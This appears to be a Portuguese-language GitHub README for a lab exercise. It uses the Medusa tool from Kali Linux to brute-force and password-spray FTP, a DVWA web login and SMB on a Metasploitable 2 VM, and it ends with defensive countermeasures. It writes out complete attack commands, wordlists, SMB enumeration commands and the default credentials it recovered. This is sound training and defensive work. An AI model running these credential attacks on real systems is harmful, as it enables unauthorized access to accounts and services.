


<h1>Projeto Medusa — Demonstração de Ataques por Exaustão de Credenciais (Kali + Metasploitable)</h1>

<strong>Disclaimer:</strong> Todas as simulações ocorreram em laboratório 100% isolado, com máquinas virtuais gerenciadas exclusivamente por mim.

<section>
  <h2>Visão Geral</h2>
  
<strong>Meta:</strong> Explorar e registrar técnicas de <em>brute force</em> e <em>password spraying</em> com a ferramenta **Medusa**, em um cenário controlado: Kali Linux atuando como atacante e Metasploitable 2 como vítima, ambos rodando no VirtualBox com interface de rede em modo **host-only** (sem acesso externo).

  
<strong>Alvos analisados:</strong> **FTP**, **aplicação web DVWA** e **protocolo SMB**.

</section>

<section>
  <h2>Infraestrutura do Lab</h2>
  <ul>
    <li>Hypervisor: VirtualBox — interface de rede **Host-only** (rede privada virtual 192.168.56.0/24).</li>
    <li>Atacante: Kali Linux — IP exemplo: <code>192.168.56.102</code>.</li>
    <li>Vítima: Metasploitable 2 — IP exemplo: <code>192.168.56.101</code>.</li>
    <li>Confirmação de endereçamento:
      <pre><code>ip addr show
# ou
hostname -I</code></pre>
    </li>
  </ul>
</section>

<section>
  <h2>Dicionários Utilizados</h2>
  <a href="static/users.txt"><h3>Lista de Usuários (users.txt)</h3></a>
  <pre><code>123456
password
qwerty
msfadmin</code></pre>

<a href="static/pass.txt"><h3>Lista de Senhas (pass.txt)</h3></a>

  <pre><code>123456
password
qwerty
msfadmin</code></pre>
</section>

<section>
  <h2>Sequência de Comandos Aplicados</h2>

  <h3>1) Ataque ao Serviço FTP — Exaustão Completa</h3>
  
Payload disparado:

  <pre><code>medusa -h 192.168.56.101 -U wordlists/users.txt -P wordlists/pass.txt -M ftp -t 4 -v 4</code></pre>
  
Confirmação do acesso:

  <pre><code>> ftp 192.168.56.101
# ou
> lftp -u credencial_encontrada 192.168.56.101</code></pre>

  <h3>2) DVWA — Invasão via Formulário Web</h3>
  
Adapte <code>PAGE</code>, <code>FORM</code> e <code>FAIL</code> ao HTML real da página de login.

  <pre><code>medusa -h 192.168.56.101 -U wordlists/users.txt -P wordlists/pass.txt -M http \
  -m PAGE:/dvwa/login.php \
  -m "FORM:username=^USER^&password=^PASS^&user_token=^CSRF^&Login=Submit" \
  -m "FAIL:Username and/or password incorrect" -t 6 -v 5</code></pre>
  
Validação prática: Navegue até <code>http://192.168.56.101/dvwa/login.php</code> e insira as credenciais reveladas.

  <h3>3) SMB — Técnica de Password Spraying</h3>
  
Execução (arquivo de senhas curtas para spraying):

  <pre><code>medusa -h 192.168.56.101 -U wordlists/users.txt -P wordlists/spray.txt -M smbnt -t 2 -T 50 -v 4</code></pre>
  
Verificação de compartilhamentos:

  <pre><code>smbclient -L //192.168.56.101 -U "dominio\\usuario%senha"
# ou
smbclient //192.168.56.101/tmp -U usuario%senha</code></pre>

  <h3>Enumeração Prévia de SMB</h3>
  <pre><code>enum4linux-ng -A 192.168.56.101
# ou rpcclient -U "" -N 192.168.56.101</code></pre>
</section>

<section>
  <h2>Evidências Coletadas</h2>
  <ul>
    <li><strong>FTP:</strong> Par <code>msfadmin:msfadmin</code> autenticado com sucesso via <code>lftp</code>.</li>
    <li><strong>DVWA:</strong> Medusa detectou credencial ao identificar ausência da mensagem de erro; acesso confirmado no browser.</li>
    <li><strong>SMB:</strong> Spraying revelou senha reutilizada; conexão estabelecida com <code>smbclient</code>.</li>
  </ul>

  <ul>
    <li><a href="static/enum4linux_log.txt">Relatório completo do Enum4Linux-ng</a></li>
    <li></li>
    <li></li>
  </ul>
</section>

<section>
  <h2>Contramedidas Recomendadas</h2>
  <ul>
    <li><strong>Senhas robustas:</strong> Mínimo 12 caracteres, entropia alta, bloqueio de dicionários via <em>password blacklist</em>.</li>
    <li><strong>Controle de tentativas:</strong> Account lockout após 5 falhas; rate-limit por IP (ex: 1 tentativa/10s).</li>
    <li><strong>2FA/MFA obrigatório:</strong> Em todos os serviços expostos (TOTP, WebAuthn, push).</li>
    <li><strong>Descontinuar protocolos legados:</strong> Substituir FTP por SFTP/SCP ou FTPS (TLS).</li>
    <li><strong>SMB seguro:</strong> Desativar SMBv1, forçar NTLMv2/Kerberos, aplicar LAPS e restrições de firewall.</li>
    <li><strong>Monitoramento ativo:</strong> Enviar logs para ELK/Splunk, alertas em tempo real, integração com <code>fail2ban</code> ou WAF.</li>
    <li><strong>Arquitetura de defesa em profundidade:</strong> Microsegmentação, zero-trust, DMZ interna e auditoria periódica.</li>
  </ul>
</section>
